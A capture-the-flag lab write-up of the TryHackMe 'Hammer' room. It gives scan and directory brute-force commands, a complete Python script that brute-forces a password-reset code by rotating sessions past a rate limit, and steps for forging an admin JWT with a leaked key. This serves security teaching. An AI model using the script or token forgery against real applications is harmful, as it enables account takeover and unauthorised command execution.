

# TryHackMe: Hammer Room Writeup

## Reconnaissance

The first step was scanning the target machine to identify open services.

I ran **RustScan** and **Nmap** as follows:

```bash
rustscan -a <target-ip> --ulimit 5000
nmap -sC -sV -p- <target-ip>
```

<sub>RustScan is significantly faster for port discovery. 🫡</sub>

**Open Ports Discovered:**

- **22/tcp**: SSH
- **1337/tcp**: HTTP web application

Focus shifted to the web server on port **1337**.


---

## Initial Web Analysis

Navigating to `http://<target-ip>:1337` presented a login portal.

Upon inspecting the HTML source, I noticed a unique naming pattern: directories prefixed with `hmr_` (e.g., `hmr_css`). This pattern hinted at the possibility of discovering hidden directories using a modified wordlist.

---

## Directory Enumeration

To brute-force directories with the discovered prefix:

1. I created a prefixed wordlist:

```bash
sed 's/^/hmr_/' /usr/share/wordlists/dirb/big.txt > hmr_big.txt
```

2. Then used **Gobuster** with the new list:

```bash
gobuster dir -u http://<target-ip>:1337 -w hmr_big.txt
```

> This uncovered a promising endpoint: `/hmr_logs`


---

## Log Analysis and User Discovery

Browsing to `/hmr_logs`, I found readable server logs. From these, I extracted a registered user email:

```
tester@hammer.thm
```

This would be crucial for initiating the password recovery flow.


---

## Password Reset Brute Force Bypass

The app used a **4-digit recovery code** sent on password reset requests. However, a per-session rate limit of **8 attempts** was enforced using the `PHPSESSID` cookie.

### Observations

- Reset attempts returned a `Rate-Limit-Pending` header counting down from 8.
- Recovery code was valid for **180 seconds globally**.

### Bypass Strategy: Session Rotation

By requesting a new password reset, the app issued a fresh session. So:

- Every **7 attempts**, I requested a **new session**, resetting the rate limit.
- This allowed **brute-forcing all 10,000 codes** without triggering the lockout.

### Automation Script

Here's the Python script used to automate the session-rotated brute-force:

```python
import requests

RESET_URL = "http://<target-ip>:1337/reset_password.php"
EMAIL = "tester@hammer.thm"
CODE_LENGTH = 4
ROTATION_LIMIT = 7

def get_new_session():
    session = requests.Session()
    # Trigger password reset to get new PHPSESSID and code tied to this session
    response = session.post(RESET_URL, data={"email": EMAIL})
    if response.status_code != 200:
        print("Warning: Reset request failed.")
    return session

def get_baseline_wordcount(session):
    # Use dummy code '0000' to get baseline word count for current session
    response = session.post(RESET_URL, data={"recovery_code": "0000", "s": 180})
    return len(response.text.split())

def try_code(session, code):
    data = {"recovery_code": code, "s": 180}
    response = session.post(RESET_URL, data=data)
    return response.text, len(response.text.split())

def main():
    codes = [f"{i:04d}" for i in range(10000)]
    session = get_new_session()
    baseline_wordcount = get_baseline_wordcount(session)
    print(f"Baseline word count: {baseline_wordcount}")

    for idx, code in enumerate(codes):
        if idx != 0 and idx % ROTATION_LIMIT == 0:
            session = get_new_session()
            baseline_wordcount = get_baseline_wordcount(session)
            print(f"\nSession rotated at attempt {idx}, new baseline: {baseline_wordcount}")

        response_text, wordcount = try_code(session, code)
        print(f"Attempt {idx}: Code {code}, Word Count: {wordcount}")

        if wordcount != baseline_wordcount:
            # Print both the successful code AND the current PHPSESSID cookie
            phpsessid = session.cookies.get("PHPSESSID")
            print(f"\nSuccess! Recovery code found: {code}")
            print(f"PHPSESSID: {phpsessid}")
            print(f"Response:\n{response_text}")
            break


if __name__ == "__main__":
    main()
```

---

## Dashboard Access & Limited Execution

Resetting the password allowed access to a web **dashboard**. This allowed only limited command execution:

- Valid: `ls`
- Blocked: `whoami`, `cat`, etc.

`ls` Output:


Session expired quickly unless interaction was maintained.



---

## JWT Token Analysis and Privilege Escalation

Authentication used **JWT tokens**, stored in cookies.

Key findings:

- Token had a `kid` header pointing to a signing key file.
- This key was **downloadable**, allowing full JWT re-signing.

### Exploitation Steps:

1. Decode token using [Tribestream JWT Debugger](https://tribestream.io/tools/jwt/)
2. Modify payload:

```json
{
  "user_id": 1,
  "role": "admin",
  "email": "tester@hammer.thm"
}
```

3. Re-sign with known key
4. Replace token in browser or Burp Suite

> ✅ Now able to execute unrestricted commands as admin!


---

## Remote Code Execution & Final Flags

Using the modified JWT token:

- Accessed admin dashboard
- Executed full commands:

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Retrieved final flags via `cat`, `ls`, etc.

> Burp Suite was used to insert the forged JWT token in the Authorization Bearer header.


---

## Summary Table of Tools

| Tool        | Purpose                        |
| ----------- | ------------------------------ |
| RustScan    | Fast port scanning             |
| Nmap        | Full TCP scan                  |
| Gobuster    | Directory brute-force          |
| Burp Suite  | Intercept & analyze HTTP flows |
| Python      | Brute-force code bypass        |
| Tribestream | Decode & re-sign JWTs          |

---

## Final Takeaways

- 🔑 Misconfigured JWTs are dangerous when keys are public.
- 🔁 Session-based rate limits can be bypassed using rotation.
- 🔍 Log files often leak user data—always enumerate thoroughly.
- 🔓 Brute-forcing can succeed when carefully scripted and rate-limits are weak.
- 🧠 Layered vulnerabilities (logs + weak JWT + poor session control) = full pwn.

> **This room showcased chained web vulnerabilities resulting in complete system compromise.**

**Happy Hacking 🚀**
